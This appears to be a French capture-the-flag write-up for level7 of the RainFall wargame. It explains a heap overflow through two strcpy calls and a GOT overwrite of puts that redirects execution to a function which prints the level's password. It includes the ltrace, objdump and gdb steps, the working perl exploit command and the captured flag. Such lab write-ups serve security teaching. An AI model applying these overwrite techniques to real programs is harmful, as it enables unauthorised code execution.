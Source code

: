 # level7

Le programme met le mot de passe dans une variable globale `c` mais n'en fait rien, en revanche, on voit que la fonction `m` pourrait potentiellement l'afficher

On va donc devoir trouver un moyen de faire un appel à `m()` en utilisant un buffer overflow avec les deux arguments copiés par `strcpy`

On commence par trouver l'offset de l'overflow en utilisant le même outil que pour les exercices précédents:
```sh
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
__libc_start_main(0x8048521, 2, 0xbffff724, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                        = 0x0804a008
malloc(8)                                                        = 0x0804a018
malloc(8)                                                        = 0x0804a028
malloc(8)                                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)        = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
On trouve un offset de 20 en passant l'adresse donnée en argument au 2ème strcpy

Pour construire not payload, on va utiliser un GOT overwrite comme pour les exercices précédents, on va donc avoir besoin de l'adresse de la fonction que l'on veut overwrite, à savoir `puts`

```sh
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

On récupère ensuite l'adresse de la fonction `m()` avec gdb 
```sh
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:    push   %ebp
   0x080484f5 <+1>:    mov    %esp,%ebp
   0x080484f7 <+3>:    sub    $0x18,%esp
   0x080484fa <+6>:    movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave  
   0x08048520 <+44>:    ret    
End of assembler dump.
```

On connait désormais l'adresse à overwrite: `0x08049928` et l'adresse par laquelle on veut la remplacer: `0x080484f4`, ainsi que l'offset: `20`

Notre payload sera donc: padding (20 characteres) + addresse GOT + adresse de `m()`
L'adresse de `m()` sera donc dans le 2ème argument.

```sh
level7@RainFall:~$ ./level7 $(perl -e 'print "A"x20 ."\x28\x99\x04\x08";' ) $(perl -e 'print "\xf4\x84\x04\x08";') 
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1708682178
```


